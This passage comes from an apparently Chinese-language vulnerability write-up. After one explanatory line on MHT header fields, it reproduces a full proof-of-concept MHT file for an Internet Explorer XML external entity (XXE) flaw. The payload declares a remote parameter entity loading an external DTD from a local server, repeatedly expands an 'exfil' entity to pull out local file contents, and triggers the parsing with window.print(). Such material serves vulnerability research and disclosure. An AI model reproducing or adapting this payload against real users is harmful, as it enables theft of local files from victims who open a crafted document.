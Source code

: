 ```
其中Subject为文档标题，Content-Type为文件的MIME属性，Content-Location为原始文件的地址，Content-Transfer-Encoding为编码格式。
```

漏洞利用poc生成的mht文件

```html
From:
Subject:
Date:
MIME-Version: 1.0
Content-Type: multipart/related; type="text/html";
	boundary="=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001"
This is a multi-part message in MIME format.


--=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001
Content-Type: text/html; charset="UTF-8"
Content-Location: main.htm

<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/transitional.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>MSIE XXE 0day</title>
</head>
<body>
<xml>
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://localhost:8000/datatears.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
<r>&exfil;</r>
<r>&exfil;</r>
<r>&exfil;</r>
</xml>
<script>window.print();</script>
<table cellpadding="0" cellspacing="0" border="0">
<tr>
<td class="contentcell-width">
<h1>MSIE XML External Entity 0day PoC.</h1>
<h3>Discovery: hyp3rlinx</h3>
<h3>ApparitionSec</h3>
</td>
</tr>
</table>
</body>
</html>


--=_NextPart_SMP_1d4d45cf4e8b3ee_3ddb1153_00000001--
```
